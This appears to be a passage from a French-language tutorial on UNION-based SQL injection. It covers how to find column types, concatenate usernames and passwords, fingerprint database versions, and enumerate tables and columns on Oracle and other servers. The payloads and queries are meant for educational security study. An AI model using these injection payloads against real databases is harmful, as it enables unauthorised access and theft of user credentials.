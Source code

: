 Maintenant qu'on a le nombre de colonnes, il faut tester un par un les paramètres pour savoir quel est le type du paramètre : 

On envoie **UNION 'string',NULL,NULL** (si 3 colonnes), puis **UNION 0,NULL,NULL**, jusqu'à trouver le type de la première colonne et ainsi de suite.

La remarque faite sur Oracle dans la précédente partie est toujours applicable ici.

<h4 id="h4-2-4"> 1 seule colonne </h4>

Si un il y a uniquement un champ *string* disponible, et qu'on veut afficher plusieurs sorties en même temps (par exemple le *username* et le *password* d'un utilisateur), on peut utiliser la fonction **CONCAT** de SQL:

```sql
SELECT CONCAT(username,'/',password) from users
```

<h4 id="h4-2-5"> Versions </h4>

Il peut être interressant de connaitre la version de la base de donnée pour effectuer des attaques ciblées sur la version.
Les requêtes dépendent de la base de donnée :

- *Oracle* : **SELECT banner FROM v$version**
- *Microsoft* : **SELECT @@version**
- *PostgreSQL* : **SELECT version()**
- *MySQL* : **SELECT @@version**

Si besoin **@** = **%40** et **$** = **%24**


<h4 id="h4-2-6"> Avoir le nom des tables </h4>

Pour effectuer nos recherche, il faut avoir le nom des tables et de colonnes, pour cela on peut effectuer, dans un requete **UNION**, les recherches suivantes : 

**Non Oracle**

```sql
SELECT TABLE_NAME FROM information_schema.tables
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'TABLE-NAME-HERE'

```

**Oracle**

```sql
SELECT TABLE_NAME FROM all_tables
SELECT COLUMN_NAME FROM all_tab_columns WHERE TABLE_NAME = 'TABLE-NAME-HERE'
```

{% note %}
Ne pas oublier de rajouter des colonnes **NULL** au cas où il faille plusieurs colonnes avec l'**UNION**
{% endnote %}

<h4 id="h4-3"> CheatSheet </h4>

{% prerequis "Les informations plus spécifiques liés aux serveur SQL sont dans ce document : [lien](https://portswigger.net/web-security/sql-injection/cheat-sheet)" %}
